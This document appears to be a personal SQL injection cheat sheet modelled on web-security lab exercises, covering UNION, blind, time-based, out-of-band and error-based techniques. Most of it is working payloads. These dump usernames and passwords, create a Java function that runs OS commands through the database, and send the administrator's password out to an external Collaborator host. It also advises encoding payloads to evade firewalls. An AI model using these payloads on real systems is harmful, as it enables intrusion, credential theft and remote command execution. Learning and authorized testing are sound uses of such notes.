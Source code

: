 # SQL Injection (SQLi) Attacks

## UNION-Based SQLi
Used when application displays query results in responses.
### Requirements
- Same number of columns.
- Compatible data types.
- Add comment using `#` or `--`.
### Determine Column Count
**Method 1: ORDER BY**
```sql
' ORDER BY 1--
' ORDER BY 2--
```

**Method 2: UNION SELECT NULLs**
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```
If error occurs, number of columns is incorrect.

**For Oracle:**
Use `FROM DUAL`:
```sql
' UNION SELECT NULL FROM DUAL--
```
### Determine Writable Columns
Test each column with string:

```sql
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'a'--
```
If error, column can't hold string data.
### Database Version
List all databases:
```
' UNION SELECT NULL, schema_name, NULL FROM information_schema.schemata--
```
- **Make sure your input matches the number of columns determined from the previous step!** (above has 3 columns)
	- Make sure you are also querying information (such as `schema_name`) under the tables that allow strings
- `schema_name` refers to the tables
- `information_schema.schemata` contains all databases

```sql
-- MySQL
SELECT @@version
-- Oracle
SELECT * FROM v$version
-- PostgreSQL
SELECT version()
```
### List Tables and Columns
```sql
-- List tables
' UNION SELECT table_name, NULL FROM information_schema.tables--

-- List columns
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
```
- **Make sure your input matches the number of columns determined from the previous step!**
	- Make sure you are also querying information (such as `schema_name`) under the tables that allow strings
### Extract Table Data
```sql
' UNION SELECT username,password FROM users--
' UNION SELECT NULL,username,password FROM users--
```
### Concatenate Values (Oracle):
```sql
' UNION SELECT NULL,username || '~' || password FROM users--
```
## CLI with SQLi
### Creating a variable that will execute OS-level commands
This creates an alias (`EXEC_OS_COMMAND`) where we can execute commands:
```
'; CREATE ALIAS EXE_CMD AS 'String exec(String cmd) throws Exception { Process p = Runtime.getRuntime().exec(cmd); java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";}' --
```
- Ends the current SQL command.
- Creates a Java-based SQL function named `EXE_CMD` that can run **any system command**.
- Comments out the rest of the original SQL query to avoid syntax errors.

Execute commands with the following:
```
' union select NULL,NULL,EXE_CMD('whoami') --
```
- Executes `ls` command
- Uses 3 columns determined from previous UNION steps
## Blind SQLi
When responses do not include query results.
### Conditional Response
Example using cookie:
```http
Cookie: TrackingId=xyz' AND '1'='1
Cookie: TrackingId=xyz' AND '1'='2
```
### Extract Password for Known User
```sql
-- Confirm table
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
-- Confirm user
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
-- Determine password length
TrackingId=xyz' AND (SELECT LENGTH(password)>1 FROM users WHERE username='administrator')='a
-- Guess characters
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
Use Burp Intruder to brute force characters. Adjust substring index to loop through the password.

## Time-Based Blind SQLi
Determine true/false conditions using delay.

### Example (PostgreSQL):
```sql
TrackingId=x'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```
Delay = True; No delay = False

### Exploit Example:
```sql
-- Confirm username exists
TrackingId=x'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
-- Guess password length
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
-- Extract password
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
```
## Out-of-Band (OAST) SQLi
When application makes async SQL queries.
### Test with Burp Collaborator
```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"%3f><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```
### Exfiltrate Data
```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"%3f><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```
## Error-Based SQLi
Use error messages to infer or extract data.
### Test
```sql
TrackingId=xyz'
TrackingId=xyz''
TrackingId=xyz'||(SELECT '')||'
TrackingId=xyz'||(SELECT '' FROM dual)||'
TrackingId=xyz'||(SELECT '' FROM not_a_real_table)||'
```
### Exploit
```sql
-- Confirm table exists
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
-- Force error based on condition
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
## Encoding Techniques
- Start with raw payloads; if blocked, try URL encoding.
- If WAF blocks still occur, switch to Hex or Unicode encoding.
- Combine encoding methods (e.g., double encoding) for increased stealth.
### When Not to Encode
- Request body uses JSON, XML, or plaintext.
  Example: `{ "username": "admin' OR '1'='1" }`
- Cookies and Headers.

---

**Reference**: [PortSwigger SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

